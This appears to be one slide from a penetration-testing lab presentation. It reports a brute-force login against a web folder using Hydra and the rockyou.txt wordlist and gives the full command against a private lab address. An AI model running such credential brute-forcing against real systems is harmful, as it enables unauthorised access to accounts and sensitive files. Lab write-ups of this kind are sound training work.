

# Exploitation: Brute Force Attack
01

02

03

Tools & Processes
I used Hydra and the rockyou.txt wordlist

Achievements
I was able to login as user “ashton” and access sensitive files

Command

$ hydra -l ashton -P rockyou.txt -s 80 -vV 192.168.1.105 http-get /company_folders/secret_folder